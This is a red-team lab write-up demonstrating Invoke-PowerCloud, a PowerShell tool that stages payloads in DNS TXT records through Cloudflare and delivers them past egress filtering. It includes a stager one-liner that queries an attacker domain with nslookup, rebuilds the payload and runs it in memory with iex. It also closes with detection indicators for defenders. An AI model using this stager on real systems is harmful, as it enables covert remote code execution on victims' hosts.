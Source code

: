 ```yaml
---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---
```


# Powershell Payload Delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell \([@domchell](https://twitter.com/domchell)\) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you are not doing so yet!

Not only that, I want to thank Dominic for taking his time to answer some of my questions regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the target from the PowerDNS server.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a powershell payload using DNS TXT records to a target in an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS.

**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS, so it can act as a DNS server
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tool works is by performing the following high level steps:

* Take the powershell payload file and base64 encode it
* Divide the payload into chunks of 255 bytes
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step
* Send the generated DNS zone file to cloudflare using their APIs
* Generate two stagers for use with authoritative NS/non-authoritative NS
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Stager executes the payload in memory!

{% hint style="info" %}
If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted
{% endhint %}

## Demo

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the Invoke-PowerCloud as follows:

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-11-03-1%20%281%29.png)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-14-53.png)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```text
host -t ns redteam.me
```

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-16-20.png)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% code title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endcode %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers. One of them is shown here:

{% code title="attacker@victim" %}
```csharp
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-47-26.png)

Let's execute the stager on the victim system to get the payload delivered via DNS:

![](../../.gitbook/assets/screenshot-from-2018-10-15-22-47-12.png)

### Animated Demo

Everything in action can be seen in the below gif:

![](../../.gitbook/assets/invoke-powercloud-demo.gif)

## Is Invoke-PowerCloud better than PowerDNS?

No. It just works slightly differently, but achieves the same end goal. Also note, that Cloudflare API rate limiting applies.

## Detection

Let's deliver a PowerShell empire payload using DNS and see how the system reacts to this:

![](../../.gitbook/assets/empire-stager-via-dns.gif)

For those wondering about detection possibilities, the following is a list of signs \(mix and match\) that may qualify the host behaviour as `suspicious` and warrant a further investigation:

* host "suddenly" bursted "many" `DNS TXT` requests to one domain
* DNS queries follow the naming convention of 1, 2, 3, ..., N
* majority of DNS answers contain `TXT Lenght` of `255` \(trivial to change/randomize\)
* DNS answers are all `TTL = 120` \(trivial to change/randomize\)
* TXT data in DNS answer has no white spaces \(easy to change\)
* host suddenly/in a short span of time spawned "many" `nslookup` processes
* has the endpoint changed once the DNS lookups stopped? i.e new processes spawned?

Below is a snippet of the PCAP showing DNS traffic from the above demo - note the TXT Length and the data itself:

![](../../.gitbook/assets/screenshot-from-2018-10-16-20-12-57.png)

Spike of `nslookup` for a host in a short amount of time:

![](../../.gitbook/assets/screenshot-from-2018-10-16-20-17-42.png)

Below is a sample PCAP for your inspection:

{% file src="../../.gitbook/assets/dns-packets.pcapng" caption="DNS Traffic Packet Trace" %}

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" caption="" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" caption="" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" caption="" %}

